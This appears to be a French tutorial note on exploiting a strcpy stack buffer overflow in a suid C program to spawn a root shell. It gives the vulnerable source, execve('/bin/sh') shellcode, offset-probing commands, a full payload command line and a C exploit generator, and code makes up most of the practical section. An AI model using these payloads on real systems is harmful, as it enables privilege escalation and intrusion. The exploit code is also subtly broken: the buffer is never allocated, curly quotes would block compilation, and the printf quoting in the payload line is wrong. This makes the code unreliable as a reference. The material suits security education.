 **Rappel**
[[Global/Programming/C C++/Librairie#^325b09|strcpy]]
[[Répértoire cours#^01daaf|stack]]


#### **Théorie**

- La fonction strcpy() ne vérifie pas la taille de ce qu'elle copie ni la taille du buffer dans lequel elle le copie. On va donc pouvoir contourner ça pour modifier l'adresse de retour pour la faire pointer sur notre shellcode qui, lui, va nous donner les droits root.

#### **Pratique**

##### **Exploit 1**

- **Environnement**
	- L'os ne doit pas varier l'adresse de la stack. Donc l'ASLR (Address Space Layout Randomization) ne doit pas être activé.

- **Code source :**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
	- `\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`

- **Exploitation**
	- On ne va même pas lancer gdb dans cet exploit pour s'immerger dans de vraies conditions. Notre but ça va être de devenir root sur la machine (le programme victime doit être suid). On va donc essayer d'injecter un shellcode qui nous lance un shell root. Pour que notre shellcode puisse être exécuté, on va remplacer l'adresse de retour de la stack (main) par l'adresse du début de notre shellcode qui va se trouver dans le début du buffer. Le programme va donc exécuter le shellcode. 
	- Pour ça, on va devoir trouvé l'adresse de début du buffer mais comme on sait que l'adresse de stack (RSP) ne va pas changer (pas d'ASLR), on peut écrire un programme qui la renvoie :
```C
#include <stdio.h>
unsigned long find_start(void){
	__asm__("movl %esp, %eax");
}
int main(){
	printf("0x%x\n", find_start());
}
```
- 
	- Ce script devrait normalement renvoyer toujours la même adresse.
	- On va maintenant tester à partir de quel offset le script victime nous renvoie un segmentation fault pour avoir une idée de la position de l'adresse de retour.
		- `./victim $(printf "%0512x" 0 )`
		-  `./victim $(printf "%0516x" 0 )` 
	- Maintenant qu'on connait la distance de RSP à l'adresse de retour, on va déterminer la taille de l'offset. Notre shellcode fait 40bytes et la distance est de ~520 bytes donc offset = 480 bytes. Étant donné que la fin du buffer va vers  les adresses haute (vers l'adresse de retour), notre adresse qui pointe vers le début de notre shellcode va être à la fin de notre payload. Ça devrait donc ressembler à :
		- `./victim $(printf\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68%0480x\xd8\xfa\xff\xbf)` où tu remarque les 480 bytes d'offset et l'adresse qu'on a trouvé avec notre script à la fin.
	- Normalement, t'as un illegal instruction (si t'as un segmentation fault, change le offset) ça veut dire qu'on exécute bien quelque chose de différent mais l'adresse du début du buffer ne doit pas être la bonne.
	- On va donc faire un script qui adapte l'adresse du début du buffer par rapport à la taille du buffer.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define offset_size 0
#define buffer_size 512
char sc[] =
	"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
	"\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
	"\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

unsigned long find_start(void){
	__asm__("movl %esp, %eax");   // Renvoie l'adresse de rsp (début)
}
int main(int argc, char *argv[])
{
	char *buff, *ptr;
	long *addr_ptr, addr;
	int offset=offset_size, bsize=buffer_size;
	int i;
	if (argc > 1) bsize = atoi(argv[1]);
	if (argc > 2) offset = atoi(argv[2]);
	addr = find_start() - offset;
	printf(“Attempting address: 0x%x\n”, addr);
	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;
	ptr += 4;
	for (i = 0; i < strlen(sc); i++)
		*(ptr++) = sc[i];
	buff[bsize - 1] = ‘\0’;
	memcpy(buff,”BUF=”,4);
	putenv(buff);
	system(“/bin/bash”);
}
```

^aadea3

- 
	- Là en fait l'offset est pas vraiment interessant. On peut prendre l'adresse rsp qui va pointer sur bsize car en fait on s'en fout là c'est pas le programme victime, c'est simplement pour imaginer l'adresse de début du buffer cible. La taille du payload (buf) va donc être cohérente avec l'adresse du début du buffer donc pas de calcul nécessaires.
	- On va donc tester plein de valeur de bsize possible. On ne peut pas le deviner du premier coup donc on y va par tatonnement.
	- À la fin du script, ça lance un shell /bin/bash dans lequel la var d'env BUF sera présente. On pourra donc s'en servir comme arguments/payload pour lancer le programme cible. 
		- `./attack 500`
		- `./victim $BUF`
	- Si ca renvoie un segmentation fault, on est allé trop loin donc on a fait un bsize qui est trop grand par rapport au buffer cible. On va donc diminuer la taille de bsize. Par contre, si y'a pas de réponse, la taille de bsize est trop petite car notre payload n'a pas atteint l'adresse de retour.
	- Normalement, quand tu aura trouvé le bon offset, tu auras un shell root qui va spawn ^e206d8
